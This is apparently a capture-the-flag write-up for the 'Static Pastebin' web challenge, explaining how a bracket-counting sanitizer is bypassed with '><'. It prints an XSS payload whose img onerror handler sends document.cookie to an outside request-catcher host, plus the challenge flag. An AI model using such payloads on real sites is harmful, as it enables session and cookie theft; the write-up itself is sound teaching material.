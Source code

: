 # Static Pastebin
Points: 373
## Category
Web
## Problem Statement
I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here\
Site: static-pastebin.2020.redpwnc.tf\
Note: The site is entirely static. Dirbuster will not be useful in solving it.\
## Solution
* Pastebin was static website it just used to return `https://static-pastebin.2020.redpwnc.tf/paste/#`+(base64 of text) as url.
* Most interesting thing in pastebin was - It had one `script.js`. It used to trim out `<tags>` of text and displayed rest.
```js
function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```
* One can easily bypass this senitizer by using `><` instead of `>` or `<`. Because html just display reductant `<` or `>` doesnt shows an error.
* Then we used [requestbin](https://requestbin.com) to setup a webhooks.
* We tried by we couldnt bypass this `<script>` tag using this trick or any other.
* Later we ended up using onerror attribute of image tag.
* Then we didnt knew where to find flag after successfully executing this script on server. We asked admins for a hint.
* Hint we got was - `flag is in admin cookie`.


```js
><img src="image.gif" onerror="const headers = new Headers()
headers.append('Content-Type', 'application/json')
const body = { 'name': document.cookie  }
const options = {
  method: 'POST',
    headers,
      mode: 'cors',
        body: JSON.stringify(body),

}
fetch('https://en7vldzt1kwul.x.pipedream.net/', options)"><
```
![flag](files/static_pastebin_flag.jpg)
## Flag
```
flag{54n1t1z4t10n_k1nd4_h4rd}
```